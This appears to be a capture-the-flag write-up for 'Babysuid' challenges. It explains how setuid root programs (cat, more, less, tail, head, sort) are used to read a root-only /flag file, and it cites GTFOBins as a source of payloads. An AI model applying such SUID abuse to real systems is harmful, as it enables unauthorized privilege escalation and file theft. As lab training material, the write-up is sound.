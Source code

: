 # Babysuid

These challenges work as following:

1. We need to select a linux program that is owned by root.
2. The program will be +s'ed (which means that its EUID will be 0).
3. Use that program to read the flag file (at the / directory) which only root user can.
4. The used programs cannot be repeated

All challenges account for a total of 100 programs which will force us to use programs that were not designed to print files. <br>

## Programs

GTFOBins
GTFOBins is a curated list of Unix binaries that can be used to bypass local security restrictions in misconfigured systems. We are going to grab a lot of payloads from GTFOBins in babysuid:
https://gtfobins.github.io/

### 1 - cat

```bash
ctf$: cat /flag
```

### 2 - more

```bash
ctf$: more /flag
```

### 3 - less

```bash
ctf$: less /flag
```

### 4 - tail

```bash
ctf$: tail /flag
```

### 5 - head

```bash
ctf$: head /flag
```

### 6 - sort

```bash
ctf$: sort -r /flag
```
